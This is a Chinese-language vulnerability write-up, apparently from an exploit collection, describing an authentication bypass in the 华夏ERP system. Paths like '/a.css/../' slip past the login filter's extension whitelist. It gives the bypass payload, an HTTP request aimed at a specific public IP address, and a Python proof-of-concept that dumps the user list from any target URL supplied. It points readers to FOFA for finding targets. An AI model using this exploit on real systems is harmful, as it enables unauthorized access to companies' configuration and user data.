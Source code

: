 ## 华夏ERP授权绕过漏洞

## 漏洞描述

华夏ERP基于SpringBoot框架和SaaS模式，可以算作是国内人气较高的一款ERP项目，但经过源码审计发现其存在多个漏洞，本篇为授权绕过漏洞

## 漏洞影响

> 华夏ERP

## FOFA

> 请自测

## 漏洞复现

漏洞复现：

该项目利用filter做登录判断

```
com.jsh.erp.filter.LogCostFilter
```

![img](resource/华夏授权绕过/1.png)

其中值得关注的是ignoredList，如果url中存在ignoredList则不需要认证。

我们去寻找ignoredList，发现它在同一文件内，如下：

![img](resource/华夏授权绕过/2.png)

可以看到匹配的值为：

```
.css#.js#.jpg#.png#.gif#.ico
```

那么绕过认证的payload我们就可以随便写了，如下：

```
/a.css/../
```

如未登录查看系统配置：

![img](resource/华夏授权绕过/3.png)



以上数据都为测试生成的数据，为虚假数据，如有雷同纯属巧合

```
GET /a.css/../systemConfig/list?search=%7B%22companyName%22%3A%22%22%7D¤tPage=1&pageSize=10 HTTP/1.1
Host: 47.116.69.14
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36 Edg/85.0.564.60
X-Requested-With: XMLHttpRequest
Referer: http://47.116.69.14/pages/manage/systemConfig.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close
```

来个POC吧，验证起来方便

使用方式：

```
python3 华夏erp未授权.py http://ip:port
```

源码：

```python
import sys,requests
def main(ip):
    url = "{ip}/a.css/../user/getUserList?search=%7B%22userName%22%3A%22%22%2C%22loginName%22%3A%22%22%7D¤tPage=1&pageSize=15".format(ip=ip)
    res = requests.get(url,verify=False,timeout=5)
    if res.status_code == 200:
        print("+ {ip} 访问成功\n{data}".format(ip=ip,data=res.text))
main(sys.argv[1])
'''
```

